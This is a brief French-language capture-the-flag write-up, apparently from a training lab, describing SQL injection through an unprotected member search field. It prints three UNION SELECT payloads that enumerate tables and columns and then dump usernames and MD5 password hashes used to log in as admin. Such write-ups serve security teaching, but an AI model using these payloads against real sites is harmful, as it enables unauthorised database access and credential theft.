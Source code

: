 Sur la page de recherche de membre, l'input n'est pas protégé contre les injections SQL.
La commande `1 UNION SELECT table_name, table_schema FROM INFORMATION_SCHEMA.COLUMNS --` permet de récupérer la liste des tables ainsi que la DB correspondante.
Une seconde requete `1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS  --` liste toutes les colonnes.
A partir de ces informations, nous allons requêter dans la db Member_Brute_Force, la table db_default : `1 UNION SELECT username, password  FROM Member_Brute_Force.db_default --`
Le résultat nous donne deux usernames 'admin' et 'root' ainsi que leur password en MD5.
Le flag est trouvé en se loguant avec les identifiants trouvés